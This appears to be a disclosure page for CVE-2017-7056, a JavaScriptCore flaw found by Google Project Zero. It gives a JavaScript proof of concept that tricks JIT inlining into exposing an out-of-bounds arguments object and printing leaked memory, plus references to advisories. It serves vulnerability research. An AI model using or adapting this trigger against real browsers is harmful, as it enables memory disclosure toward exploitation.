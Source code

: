 # CVE-2017-7056

- Fix: Jul 2017
- Credit: lokihardt, Google Project Zero

## PoC

```javascript
const kArgsLength = 0x101;

let buggy = null;
function inlineFunc() {
    if (arguments.length != kArgsLength) {
        buggy = arguments;
    }
}

class ClassForInine extends inlineFunc {
}

function sleep(ms) {
    let start = new Date();
    while (new Date() - start < ms);
}

function main() {
    let args = new Array(kArgsLength);
    args.fill(333 + 1);
    args = args.join(', ');

    let opt = new Function(`(() => {
        new ClassForInine(${args});
    })();`);

    for (let i = 0; i < 0x100000; i++) {
        opt();

        if (i === 0x3000)
            sleep(1000);

        if (buggy) {
            print('buggy.length: ' + buggy.length);
            break;
        }
    }

    for (let i = 0, n = buggy.length; i < n; i++) {
        print(buggy[i]);
    }
}

main();
```

## Reference

- [Apple](https://support.apple.com/ko-kr/HT207921)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1262)
